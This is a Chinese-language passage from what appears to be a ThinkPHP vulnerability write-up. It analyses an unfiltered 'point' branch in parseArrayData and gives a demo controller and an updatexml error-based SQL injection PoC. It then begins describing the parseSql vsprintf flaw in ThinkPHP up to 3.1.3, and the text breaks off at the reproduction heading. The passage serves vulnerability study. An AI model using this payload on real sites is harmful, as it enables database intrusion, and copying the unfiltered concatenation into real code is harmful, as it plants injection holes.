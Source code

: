 4. parseArrayData方法point分支未过滤直接拼接参数：

   ```php
   protected function parseArrayData(Query $query, $data)
       {
           list($type, $value) = $data;
   
           switch (strtolower($type)) {
               case 'point':
                   $fun   = isset($data[2]) ? $data[2] : 'GeomFromText';
                   $point = isset($data[3]) ? $data[3] : 'POINT';
                   if (is_array($value)) { 
                       $value = implode(' ', $value);
                   }
                   $result = $fun . '(\'' . $point . '(' . $value . ')\')';# vulnpoint
                   break;
               default:
                   $result = false;
           }
   
           return $result;
       }
   ```

#### -漏洞复现

- demo构造

```php
public function parseArrDataSql()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' => 1])->update(['username' => $username]);
        return 'Update success';
    }
```

- PoC

`username[0]=point&username[1]=1&username[2]=updatexml(1,concat(1,user(),1),1)^&username[3]=0`

### 9.ThinkPHP/Lib/Core/Model.class.php::parseSql未过滤处理PDO数组参数

#### - 利用条件

版本范围：ThinkPHP (0, 3.1.3]

#### - 漏洞原理和分析

ThinkPHP/Lib/Core/Model.class.php的parseSql方法会对$parse通过vsprintf直接格式填充处理，没有进行安全过滤。

![img](https://cdn.nlark.com/yuque/0/2022/png/21861937/1648546399377-78f6044a-f9a3-4b68-927d-183c4831e1e0.png)

#### -漏洞复现
